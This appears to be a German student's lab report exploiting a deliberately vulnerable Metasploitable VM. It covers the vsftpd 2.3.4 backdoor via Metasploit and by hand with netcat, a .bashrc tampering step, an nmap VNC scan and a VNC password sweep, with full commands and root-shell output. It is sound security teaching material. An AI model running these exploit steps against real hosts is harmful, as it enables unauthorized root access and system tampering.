

# 4AHITS ITSE very safe FTP backdoor & VNC Exploitation

---

Name: Xu Matthias Chen   
Klasse: 4AHITS   
Fach: ITSE   
Datum: 02.02.2026        

---

### Übung (msf vsftpd exploit)
Voraussetzung: Setze Kali und Metasploitable in den NAT Modus.

Starte metasploit aus dem Terminal mit msfconsole (metasploit framework console)

help zeigt einen Hilfetext an.

Verwende search um ein metasploit Modul zu finden dass einen exploit für diese Backdoor zur Verfügung stellt. Hinweis: Suche nach vsftpd

Aktiviere dieses Modul mit use.

Die Anzeige sollte nun so aussehen:

```
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/...) > 
```

Verwende info um Informationen zum aktivierten Modul anzuzeigen. Lies die “Description” durch und finde heraus welche Optionen dieses Modul unterstützt und wie diese gesetzt werden müssen. Setze die notwendigen Optionen.

Verwende den Befehl run um das aktive Modul auszuführen. Es startet eine shell. Verifiziere, dass diese am Metasploit System läuft. Welche Rechte hat diese shell (welcher user)?

Hinterlasse eine Nachricht you have been hacked!die beim nächsten Einloggen dem User msfadmin automatisch angezeigt wird.


```
msf6 > search vsftpd

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  auxiliary/dos/ftp/vsftpd_232          2011-02-03       normal     Yes    VSFTPD 2.3.2 Denial of Service
   1  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/ftp/vsftpd_234_backdoor

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor 
[*] No payload configured, defaulting to cmd/unix/interact

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > info

       Name: VSFTPD v2.3.4 Backdoor Command Execution
     Module: exploit/unix/ftp/vsftpd_234_backdoor
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-07-03

Provided by:
  hdm <x@hdm.io>
  MC <mc@metasploit.com>

Available targets:
      Id  Name
      --  ----
  =>  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT   21               yes       The target port (TCP)

Payload information:
  Space: 2000
  Avoid: 0 characters

Description:
  This module exploits a malicious backdoor that was added to the       VSFTPD download
  archive. This backdoor was introduced into the vsftpd-2.3.4.tar.gz archive between
  June 30th 2011 and July 1st 2011 according to the most recent information
  available. This backdoor was removed on July 3rd 2011.

References:
  OSVDB (73573)
  http://pastebin.com/AetT9sS5
  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html


View the full module info with the info -d command.


msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.8.130
RHOSTS => 192.168.8.130
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 192.168.8.130:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.8.130:21 - USER: 331 Please specify the password.
[+] 192.168.8.130:21 - Backdoor service has been spawned, handling...
[+] 192.168.8.130:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.8.129:44879 -> 192.168.8.130:6200) at 2026-01-19 07:17:12 -0500


```

User: Root

```
whoami
root
```

Skript: 
```
echo 'echo "you have been hacked!"' >> /home/msfadmin/.bashrc

chmod 644 /home/msfadmin/.bashrc
```

Neuanmeldung:
```

su - msfadmin
you have been hacked!

```


### Übung (exploit ohne msf)
Versuche die vsFTP Sicherheitslücke mit Standard shell Befehlen auszunutzen. Verwende nicht msfconsole und kein Python Script.

Hinweise:

Suche in der Exploit Database
Du findest ein Python Script. Analysiere dieses.
Verwende nc (netcat)

Phyton:

```
user="USER nergal:)"
password="PASS pass"

```

:) triggert Backdoor und password ist egal was es ist. 


```
nc 192.168.8.130 21

220 (vsFTPd 2.3.4)

```


Befehl:

```
printf "USER hacker:)\r\nPASS test\r\n" | nc 192.168.8.120 21
```

Ausgabe:

```
220 (vsFTPd 2.3.4)
331 Please specify the password.
500 OOPS: priv_sock_get_result
```

Bedeutung:

:) wurde erkannt 

Backdoor-Code wurde ausgeführt 

vsftpd crasht danach (bekannt & normal) 

 Exploit erfolgreich ausgelöst

Die Meldung 500 OOPS: priv_sock_get_result zeigt, dass der Backdoor-Pfad erreicht wurde.

```
└─$ nc -v 192.168.8.130 6200

192.168.8.130: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.8.130] 6200 (?) open

whoami
root
```

Übung (VNC - Recherche)
Recherchiere Basics zu VNC (Virtual Network Computing).

Was ist VNC?

VNC (Virtual Network Computing) ist ein System zur grafischen Fernsteuerung eines Rechners über das Netzwerk.

- Arbeitet nach dem Client-Server-Prinzip

- Überträgt Bildschirm, Maus und Tastatur

- Plattformunabhängig (Linux, Windows, macOS)

- Nutzt das RFB-Protokoll (Remote Framebuffer)

- Standard-Port: 5900/TCP


Authentifizierung oft  mit Passwort (bei alten Versionen: keine oder schwache Authentifizierung).

Verkehr ist nicht verschlüsselt. 

VNC-Server sind häufig falsch konfiguriert, ohne Passwort und haben schwache Passwörter.

Übung( VNC - Scan)
Scanne mit nmap den VNC Port auf Metasploitable. Teste Version und Banner. Verwende das nmap Script vnc-info.

```
$ nmap -p 5900 192.168.8.130

Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-02 06:54 EST
Nmap scan report for 192.168.8.130
Host is up (0.00094s latency).

PORT     STATE SERVICE
5900/tcp open  vnc
MAC Address: 00:0C:29:00:14:79 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.23 seconds
```

```
$ nmap -p 5900 --script vnc-info 192.168.8.130

Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-02-02 06:55 EST
Nmap scan report for 192.168.8.130
Host is up (0.00080s latency).

PORT     STATE SERVICE
5900/tcp open  vnc
| vnc-info: 
|   Protocol version: 3.3
|   Security types: 
|_    VNC Authentication (2)
MAC Address: 00:0C:29:00:14:79 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds
```

Übung (VNC - Exploit)
Metasploitable enthält eine Schwachstelle im VNC Server.

In metasploit gibt es ein Modul unter auxiliary/scanner/vnc das auf Login Vulnerabilities testet. Verwende dieses Modul.
Anschließend liegen genug Informationen vor um eine VNC Verbindung von Kali auf Metasploitable aufzubauen (mit vncviewer). Als welcher User bist du nun eingeloggt?

Mit `msfconsole` Metasploit starten.


```
msf6 > use auxiliary/scanner/vnc/vnc_none_auth
msf6 auxiliary(scanner/vnc/vnc_none_auth) > set RHOSTS 192.168.8.130
RHOSTS => 192.168.8.130
```
 Auf das Ziel öffnen und dann `run` eingeben.


```
msf6 auxiliary(scanner/vnc/vnc_none_auth) > run

[*] 192.168.8.130:5900    - 192.168.8.130:5900 - VNC server protocol version: 3.3
[*] 192.168.8.130:5900    - 192.168.8.130:5900 - VNC server security types supported: VNC
[*] 192.168.8.130:5900    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Man erkennt hier die version von VNC server.

```
msf6 > use auxiliary/scanner/vnc/vnc_login
msf6 auxiliary(scanner/vnc/vnc_login) > set RHOSTS 192.168.8.130
RHOSTS => 192.168.8.130
msf6 auxiliary(scanner/vnc/vnc_login) > run

[*] 192.168.8.130:5900    - 192.168.8.130:5900 - Starting VNC login sweep
[!] 192.168.8.130:5900    - No active DB -- Credential data will not be saved!
[+] 192.168.8.130:5900    - 192.168.8.130:5900 - Login Successful: :password
[*] 192.168.8.130:5900    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Hier sieht man das passwort: password ist und ohne User.

```
vncviewer 192.168.8.130:0
```
und bei Passwort: password eingeben.



hier sieht man das man als root eingeloogt ist.

